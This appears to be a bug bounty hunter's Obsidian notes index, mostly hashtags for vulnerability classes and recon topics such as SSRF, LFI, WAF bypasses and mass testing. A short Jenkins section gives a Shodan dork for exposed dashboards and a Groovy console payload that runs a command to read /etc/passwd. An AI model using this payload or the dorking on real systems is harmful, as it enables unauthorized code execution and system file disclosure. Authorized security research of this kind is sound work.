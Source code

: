 
#Important_report

#trick 

#Find_VDPs

#SSO

#MFA

#ffuf

#FUZZ

#Nuclei_Templates

#waymore-patterns

#subdomain_collections 

#OneLiners

---

_"Easy" Vulns_

#MIME_type

#_404 

#Email/Login_Bypass

#js

#Github_Recon

 #origin_ip 

#cURL

#Exposed_PDFs

#reset_poisoning

#easy_boounty 

---

#gf

#LFI

#CSTI

#IDOR_Tips

#PHP_Vulns -- to do

#CSRF

#SSRF 

#blind_xss

#Port_Scanning

#PII

#File_Upload

#Header_Injection -- to do MEDUSA  https://www.youtube.com/watch?v=_xmTPMDHPBo by Medusa

#Content-0  (When you find a Page with just "0")

#null_00

#WP_MassHunt

#Mass_Testing - _how it’s possible to do bug bounties on a mass scale

#Mass_OpenRedirect

#VirusTotal_Recon

#shodan_facet_Analysis 

#Subdomain-Take-Over

#Exstension

#RDP

#OSINT

#find_env_backups_with_nuclei

#debug_mode

#WAF_Bypasses 

#Specific_CVE_Exploit

#OAuth

![[Pasted image 20250226172531.png]]

#Obsidian_Stuff

---

## Technology Related Subjects

#Apache-Hadoop

#AWS3 

#FireBase

#GraphQL

#Jenkins

![[Pasted image 20250612232024.png]]

## Groovy Console

#groovy_console

Exploit RCE via Groovy Console

```bash
Shodan: ssl.cert.subject.cn:*.taarget.com http.title:"Dashboard [Jenkins]"

Payload: println "cat /etc/passwd".execute().text
```


---
## Related Tools

#gf 

 #phone_number